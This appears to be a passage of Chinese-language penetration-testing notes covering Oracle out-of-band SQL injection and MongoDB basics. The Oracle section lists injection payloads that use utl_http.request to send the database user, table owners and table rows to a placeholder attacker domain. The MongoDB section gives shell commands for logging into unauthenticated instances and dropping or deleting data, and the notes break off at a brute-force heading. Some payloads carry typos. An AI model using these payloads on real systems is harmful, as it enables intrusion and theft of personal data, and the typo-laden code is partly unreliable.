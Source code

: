 ### **Oracle_数据外带**

```
# 相关函数
utl_http.request() 
utl_inaddr.get_host_address()	
sys.dbm_ldap.init() 	# 需要在自己电脑上开启http协议
# 示例:
?id=1 and (select utl_http.request('http://oracle.dns域名/data=||拼接payload') from dual) is not null
# 示例:
?id=1 and (select utl_http.request('http://oracle.dns域名/?data='||sys_context('userenv','currrent_user')) from dual ) in not null
#
?id=1 and (select utl_http.request((select 'http://oracle.dns域名/?data='||owner from (select owner,rownum as limit from (select distinct(owner) from sys.all_tables))where limit = 1)) from dual
#
?id=1 and (select utl_http.request((select 'http://oracle.dns域名/?data='||data from (select data,rownum as limit from (select id||chr(126)||name||chr(126)|| sex as data from 库名.表名)) where limit = 1)) from dual


```







## NoSQL

```mongo
# Not Only SQL 泛指非关系型数据库
​		redis	# key = value 方式存储
​		mongodb	半nosql	半sql	# {'key: value', 'key: value'} join方式存储
​		HBase
​		apache Cassandra

# key = value  以键值对的方式存储数据
# img = {author: '', 'url': '', ......, type: img} 	查询数据的速度较快
# mongodb 未授权, 不需要帐号密码直接登录的漏洞
# 基本操作
# 登录
mongo --host 127.0.0.1
show dbs 	# 查看所有数据库
use	数据库名 	# 切换数据库, 数据库不存在会自动创建
show collections 	# 查看集合
db.dropDatabase()	# 进入数据库后,如果没有选择任何数据库,会删除默认的test数据库
# 集合
show collections 	# 查看集合
db.creataCollection('xx') 	# 创建集合
db.xxx.drop() 	# 删除集合
# 文档操作
da.xx.insert({key:value}) 	# 增加数据
db.xx.remove({删除的条件}) 	# 条件为空,全部删除
db.xx.remove({age:10}) 		# 删除所有符合条件的数据
db.xx.remove({gender.true},{justOne.true}) 	# 只删除符合条件的第一个数据
db.xx.update({查找的条件},{修改的内容}) 	# 更新数据
db.xx.update({查找的条件},{$set{修改的内容}}) 	# 添加数据
# 文档查询
db.xx.find({查询条件}) 	# 为空,查询所有数据
db.xx.find({age:10}) 	# 查询指定条件的所有内容
db.xx.findOne({age:10}) 	# 查询指定条件的第一条
db.xx.find({age:10}).pretty() 	# 格式化输出

# 爆破
```